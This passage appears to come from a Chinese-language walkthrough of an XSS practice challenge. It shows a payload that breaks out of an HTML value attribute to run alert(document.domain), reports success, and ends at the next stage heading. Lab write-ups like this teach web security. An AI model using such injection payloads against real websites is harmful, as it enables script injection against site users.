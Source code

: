 发现输入的结果会产生在value=""中，尝试进行闭合 

```text
mrzhang76">alert(document.domain);<input value" 
```

攻击成功

![&#x5728;&#x8FDB;&#x884C;&#x95ED;&#x5408;&#x540E;&#x8FDB;&#x80FD;&#x89E6;&#x53D1;&#x653B;&#x51FB;&#x4EE3;&#x7801;](../../.gitbook/assets/image%20%2831%29.png)

![&#x6210;&#x529F;&#x83B7;&#x5F97;&#x4E0B;&#x4E00;&#x5173;&#x5730;&#x5740;](../../.gitbook/assets/image%20%2896%29.png)

## **Stage3:**

隐藏在选项后的攻击入口
